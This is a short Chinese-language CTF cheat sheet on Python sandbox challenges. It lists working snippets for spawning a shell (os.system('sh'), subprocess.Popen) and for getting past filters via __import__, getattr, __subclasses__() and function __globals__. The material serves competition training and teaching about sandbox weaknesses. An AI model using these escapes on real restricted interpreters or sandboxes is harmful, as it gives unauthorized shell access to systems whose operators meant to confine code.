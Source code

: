 # CTF 技巧彙整 000 - Python Sandbox Challenge

Python Sandbox 的題目通常都是可以讓我們執行 python 的程式碼，但是會有各種檢查

### 目標

**Get shell**

```python
import os
os.system("sh")
```

```python
import subprocess
subprocess.Popen(["sh"])
```

```python
import sys
sys.modules["os"].system("sh")
```

### 小技巧

#### `__import__`

`import` 其實是去呼叫 `__import__`

```python
__import__("os").system("sh")
```

#### 拉圾堆

可以從這些地方找可以用的東西

```python
globals()
locals()
{}.__class__.__base__.__subclasses__()
{}.__class__.__mro__[1].__subclasses__()
```

#### `getattr`

`.` 可以用 `getattr` 取代

```python
os.system("sh")
getattr(os, "system")("sh")
```

#### 共享視野

當我們有一個檔案 `test.py` 長這樣

```python
import os

def test():
    print("test")
```

我們可以跟 `test` 函式共享視野

```python
from test import test
test.__globals__["os"].system("sh")
test.__globals__["__builtins__"]["__import__"]("os").system("ls")
```

### 各種底線是什麼

#### `__builtins__`

會自動載入為全域變數，包括各種內建函式 ( ex: `print`, `dir`, ... )

```python
__builtins__ = __import__("__builtin__") # python2
__builtins__ = __import__("builtins")    # python3
```
